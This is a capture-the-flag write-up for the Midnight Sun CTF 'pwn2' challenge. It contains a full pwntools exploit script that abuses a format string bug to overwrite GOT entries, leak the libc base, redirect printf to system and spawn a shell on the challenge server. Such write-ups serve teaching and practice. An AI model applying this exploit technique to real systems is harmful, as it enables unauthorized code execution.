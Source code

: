 # pwn2(80pts) #

![TASK](https://imgur.com/lYjuGsS.png)

It was a really fun task , we had a format string vulnerability , so firstly i overwrited the GOT entry of the exit function with main address so we have now an infinite loop and the program will never exit , than using format string we leak the libc base address and than we overwrite the GOT entry of printf with the address of system :D 
Here is my exploit , if you have any questions you can contact me o twitter @BelkahlaAhmed1 

```python

from pwn import *
def extract(add,n):
        p1="0x"+add[-4:]
        p2=add[:6]
        if n==1:
                return p1
        if n==2:
                return p2
def pad(payload):
        return payload+"X"*(63-len(payload))
#p=process("./pwn2")
p=remote("pwn2-01.play.midnightsunctf.se",10002)
p.recvuntil("input:")
EXITGOT=p32(0x804b020)
EXITGOT2=p32(0x804b020+2)
'''
s=""
for i in range(27,34):
        s+="%"+str(i)+"$p "
'''
payload=EXITGOT+EXITGOT2
payload+="%2044x%8$hn%32231x%7$hn"
#raw_input("attach")
p.sendline(pad(payload))
p.recvuntil("input:")
p.sendline(pad("%30$x"))
data=p.recvuntil("X")
printf=int("0x"+data[-9:-1],16)-5
LIBCBASE=printf-0x50b60
log.info("Leaked Libc Base : "+hex(LIBCBASE))
p.recvuntil("input:")
PRINTFGOT=p32(0x804b00c)
PRINTFGOT2=p32(0x804b00c+2)
SYSTEM=LIBCBASE+0x3cd10
log.info("System address: "+hex(SYSTEM))
payload=PRINTFGOT
payload+=PRINTFGOT2
p1=int(extract(hex(SYSTEM),1),16)
p2=int(extract(hex(SYSTEM),2),16)
log.info("P1: "+str(p1-8)+" P2: "+str(p2-p1))
payload+="%"+str(p1-8)+"x%7$hn%"+str(p2-p1)+"x%8$hn"
log.info("Payload crafted")
p.sendline(pad(payload))
p.recvuntil("input:")
p.sendline("/bin/sh")
p.interactive()

#Main address 0x80485eb
# 7 stack adress

```
